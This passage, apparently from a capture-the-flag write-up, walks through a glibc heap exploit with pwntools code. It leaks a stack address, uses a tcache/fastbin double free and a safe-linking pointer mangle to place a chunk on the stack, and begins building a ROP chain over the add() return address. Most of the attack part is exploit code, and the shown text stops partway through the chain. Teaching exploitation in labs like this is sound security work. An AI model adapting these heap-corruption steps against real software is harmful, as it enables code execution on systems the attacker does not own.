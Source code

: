 ![](image-2.png)  

* Notice how `fastbins` are now `tcache`, because `tcache` becomes empty it transfers all the `fastbin` chunks into `tcache` due to its faster performance   

* Now we cal view the newly allocated chunk to take a stack leak 

```python
p.sendlineafter("_-_-_-_-", "3")
p.sendlineafter("Page?", "3")
p.recvuntil("content: ")

data = p.recvline()[:-1][16:]

stack_leak = u64(data.ljust(8, b"\x00")) 

log.critical(f"stack_leak: {hex(stack_leak)}")
```  

## ROP Chain 

* Now we have stack leak, our next goal is to overwrite the return address of `add` fucntion 
* Majority of the process will be same just that while allocating the chunk on the stack we will have to write the ROP chain 

```python
for i in range(10):
    malloc(i, 0x68, "A"*0x68)

for i in range(7):
    free(i)

free(8)
free(7)
free(8)

for i in range(7):
    malloc(i, 0x68, "A"*0x68)

pos = heap_leak + 0x13e0 # <--- heap data pointer of the victim chunk
ptr = stack_leak - 424 # <--- saved RBP on add() function stack

#ptr = 0x7ffca22027a0 from below image  

log.critical(f"Allocating Chunk on Stack @ {hex(ptr)}")

malloc(7, 0x68, p64((pos >> 12) ^ ptr))
malloc(7, 0x68, "F"*0x68)
```